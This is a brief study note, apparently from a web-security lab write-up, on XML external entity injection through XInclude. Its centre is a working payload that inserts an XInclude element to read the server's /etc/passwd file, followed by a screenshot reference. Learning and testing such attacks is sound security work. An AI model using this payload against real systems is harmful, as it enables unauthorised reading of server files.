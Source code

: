 # XXE via XInclude

Insert an XML dummy element containing a call to `XInclude` to retrieve the `/etc/passwd` file.

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>`

![[exploited-3.png]]
